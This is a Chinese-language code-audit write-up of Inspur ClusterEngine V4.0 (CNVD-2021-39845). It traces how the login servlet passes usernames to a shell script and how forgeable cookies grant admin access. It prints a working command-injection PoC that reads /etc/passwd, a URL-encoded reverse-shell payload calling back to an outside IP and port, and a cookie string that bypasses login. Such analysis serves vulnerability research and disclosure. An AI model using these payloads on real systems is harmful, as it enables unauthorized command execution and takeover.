 ```yaml
---
layout: about
category: about
Researchname:  浪潮ClusterEngineV4.0代码审计历程
toc: true
author: Bin4xin
permalink: /about/inspur-Cluster-Engine-V4.0-code-aduit-walkthrough/
desc: 「代码审计」
---
```


## *CNVD-2021-39845 - 浪潮ClusterEngine V4.0存在逻辑缺陷漏洞*

- 2021年 5月21日 星期日 00时11分58秒 CST
    - 最近一直在看代码，正好前两天在网上冲浪的时候看到浪潮的一个RCE，就拿过来分析一下试试看
- 2021年 5月31日 星期一 22时55分49秒 CST
    - 上传相关代码至[*bigger-than-bigger*仓库：点击查看相关代码](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code)

先看`web.xml`定义的servlet；
```xml
<servlet>
    <servlet-name>login</servlet-name>
    <servlet-class>
        com.inspur.tsce4.login.Servlet
    </servlet-class>
</servlet>
```
指向`com.inspur.tsce4.login.Servlet`类，直接去看login：`WEB-INF/classes/com/inspur/tsce4/login/Servlet`类：

```java
public class Servlet extends HttpServlet {
    public Servlet() {
    }
    public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        request.setCharacterEncoding("utf-8");
        Management manage = new Management(request, response);
        manage.doResponse();
    }
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        this.doPost(request, response);
    }
}
```
继承了HttpServlet，dopost方法调用Management：


```java
public class Management {
    
    HttpServletRequest request;
    HttpServletResponse response;
    Command command = new Command();

}

```
我个人不太喜欢贴大段代码，自己写着累，看的人也累，因为代码只更像是我们生活中聊天时候的互动手势，一定是辅助作用而不是表达主题；于是我便大致画了一下我理解的web认证Java代码跳转逻辑，方便理解：

![SObV3jkL9DGlWMd.png](https://image.yjs2635.xyz/images/2022/02/20/SObV3jkL9DGlWMd.png)

- `command()` -> 对应是运行服务器上的`user_auth.sh`脚本：
    - [点击以查看代码](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Inspur%20Cluster%20Engine%20v4/java%20code/userAuth.sh)
    - 来看看代码主要运行逻辑，主要为以下逻辑：
      ![LI2u7s48kE6cRfw.png](https://image.yjs2635.xyz/images/2022/02/20/LI2u7s48kE6cRfw.png)

运行程序先判断传入参数个数紧 接着对第一个传入参数进行简单的特殊字符过后进行比对，代码如下：

```bash
uname echo $1 | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
if [ a"$uname"b != a"$1"b ]; then
   echo the user $1 format is illegal
   echo error:1
   exit 1;
fi

#简单做了一个过滤实验，但是一对符号如() ''等都无法过滤
➜ echo a-d-c.\/ | awk -F "" '{for(i=1;i<=NF;i++){if ($i ~ /[a-zA-Z0-9_]/) {str=$i;str1=(str1 str)}}print str1}'
adc

```
其中进行算法识别的代码只能在redhat系统运行，中文环境下的redhat系统`crypt`换成`加密`即可：

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) crypt.*/\1/p')` 

<a href=""> <i class="fa fa-hand-o-down"></i></a> 

`encrypt=$(passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p')`

```bash
➜ docker run -d hjd48/redhat
➜ docker exec -it c2739bba0d86 /bin/bash

##redhat 6国内换源
bash-4.1# cd /etc/yum.repos.d/ && mkdir tmp && mv *.repo tmp 
bash-4.1# wget -O /etc/yum.repos.d/CentOS-Base.repo https://static.lty.fun/%E5%85%B6%E4%BB%96%E8%B5%84%E6%BA%90/SourcesList/Centos-6-Vault-Aliyun.repo

##encrypt 获取过程
bash-4.1# uname -a
Linux c2739bba0d86 5.10.25-linuxkit #1 SMP Tue Mar 23 09:27:39 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
bash-4.1# cat /etc/issue
Red Hat Enterprise Linux Server release 6.3 (Santiago)
Kernel \r on an \m

bash-4.1# passwd -S root | sed -rn 's/.* (\w+) 加密.*/\1/p'
SHA512

##用户认证过程
bash-4.1# bash user_auth.sh root zanghun123
root
arootb
arootb
$6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
encrypt: SHA512
s8LxZk5w
passwd_shadow: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
passwd_t: $6$s8LxZk5w$VUlASup50b9gmquJS6BT6YhDGHwTZThCRQeXRi12bHq8gAgxhSuqO5R7Jwm6p62lEyL4na16tG21gtBV1KaOV.
true
```

### 0x01：远程代码执行

用户认证的逻辑基本如此，我们可以看到在web应用层针对用户的认证就是bash代码进行用户哈希值比对的结果，是以这样的参数传入：`bash user_auth.sh $username $passwd`

所以就导致了RCE，原理也十分简单，我们在web层的传入`$username 和 $passwd `两个参数可控，Linux环境下对传入参数使用符号：<code> $ ` () </code> 进行变量替换即可：

```
bash-4.1# cd touch-test/
bash-4.1# ls
bash-4.1# pwd
/tmp/touch-test
bash-4.1# $(touch id)
bash-4.1# ls
id
bash-4.1# $(id)
bash: uid=0(root): command not found
```
所以传入参数进行RCE即可；
![gIdstxBcKfaWMA9.png](https://image.yjs2635.xyz/images/2022/02/20/gIdstxBcKfaWMA9.png)

poc代码：
```
# POC测试(出现 root:x:0:0 则存在漏洞)

op=login&username=peiqi`$(cat /etc/passwd)`
{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user peiqi does not exist\nerror:1\n"}

# 反弹shell
op=login&username=peiqi`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`

```

#### 参考

- [浪潮ClusterEngineV4.0 任意命令执行](https://github.com/hhroot/2021_Hvv/blob/main/%E6%B5%AA%E6%BD%AE%20ClusterEngineV4.0%20%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md
)

### 0x02：Cookie伪造登录

- `com.inspur.tsce4.Management.login() - Management.getCookie() - Management.loginOut()`

```java
public class Management {
private void getCookie() {
        String key = this.request.getParameter("name");
        JSONObject result = new JSONObject();
        Cookie[] cookies = this.request.getCookies();
        Cookie cookie = null;
        Cookie userCookie = null;
        Cookie L_TIMES_cookie = null;
        if (cookies != null) {
            for(int i = 0; i < cookies.length; ++i) {
                if (cookies[i].getName().equals(key)) {
                    cookie = cookies[i];
                } else if (cookies[i].getName().equals("username")) {
                    userCookie = cookies[i];
                } else if (cookies[i].getName().equals("L_TIMES")) {
                    L_TIMES_cookie = cookies[i];
                }
            }
        }

        if (userCookie == null && key.equals("username")) {
            userCookie = cookie;
        }

        if (clearUserList.containsKey(userCookie.getValue()) && userCookie != null && key.equals("vertifyUser")) {
            Long now = (new Date()).getTime();
            Long addTime = ((Date)clearUserList.get(userCookie.getValue())).getTime();
            if (now - addTime > 43200000L) {
                clearUserList.remove(userCookie.getValue());
            } else if (addTime - Long.parseLong(L_TIMES_cookie.getValue()) > 0L) {
                Cookie cookieAuth = new Cookie("vertifyUser", "false");
                cookieAuth.setMaxAge(43200);
                cookieAuth.setPath("/");
                cookieAuth.setHttpOnly(true);
                this.response.addCookie(cookieAuth);
                cookie = null;
            }
        }

        try {
            if (cookie != null) {
                result.put("result", "true");
                result.put("value", cookie.getValue());
            } else {
                result.put("result", "false");
            }

            JsonUtil.respnseJson(this.response, result.toString());
        } catch (JSONException var10) {
            JsonUtil.respnseJson(this.response, this.nullResJson.toString());
        }

    }
}
```

分析得：用户认证Cookie不存在随机性、时效性。所以我们可以直接伪造Cookie登入即可：`lang=cn; username=root; userType=administrator; vertifyUser=true`

![Go4jpkAwsNKRWUz.png](https://image.yjs2635.xyz/images/2022/02/20/Go4jpkAwsNKRWUz.png)

直接使用Cookie插件ModHeader带入Cookie，直接登入：

![sUAdtS41ia9cMoL.png](https://image.yjs2635.xyz/images/2022/02/20/sUAdtS41ia9cMoL.png)

---

以上。

